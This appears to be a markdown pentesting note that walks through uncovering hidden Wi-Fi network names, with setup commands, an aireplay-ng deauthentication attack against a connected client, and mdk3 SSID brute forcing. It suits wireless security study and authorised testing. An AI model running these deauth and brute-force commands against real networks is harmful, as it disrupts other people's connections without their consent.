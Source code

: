 # How to find hidden SSIDs
Hiding SSIDs is a superficial attempt at masking SSIDs from casual users and attackers by making it less visible. 2 methods to get their ESSID, deauth and bruteforcing.

---

## Setup
Set router to max power
```
ifconfig wlan1 down
```
```
iwconfig wlan1 txpower 30
```
```
ifconfig wlan1 up
```
Preemptively kill everything that gets in your way:
```
airmon-ng check kill
```
Start monitor mode:
```
airmon-ng start wlan1
```
Run a test:
```
aireplay-ng --test wlan1mon
```
Should see `Injection is working!`

Save what's out there and save to a file:
```
airodump-ng wlan1mon --band agp -w dump
```

---

## Deauth
If there are clients connected to hidden networks you can deauth them, then capture the request they send to re-connect which will contain the ESSID / network name.
Run airodump live to see ESSID update:
```
airodump-ng wlan1mon --band agp
```
On a second terminal, deauth target client MAC (`-c`) with AP MAC (`-a`)  (both found in dump):
```
aireplay-ng -0 100 -a B2:C1:3D:3B:2B:A1 -c 02:00:00:00:02:00 wlan1mon
```
Watch live dump to see updated ESSID

## Brute forcing hidden SSID
With `mdk3`, we can either provide a wordlist or specify the length of the SSID so the tool can automatically generate potential SSID names:
```
mdk3 <interface> <test mode> [test_ options]
```
Brute forcing all possible values:
```
mdk3 wlan1mon p -b u -c 1 -t A2:FF:31:2C:B1:C4
```
Brute forcing using a wordlist:
```
mdk3 wlan1mon p -f /opt/wordlist.txt -t D2:A3:32:13:29:D5
```
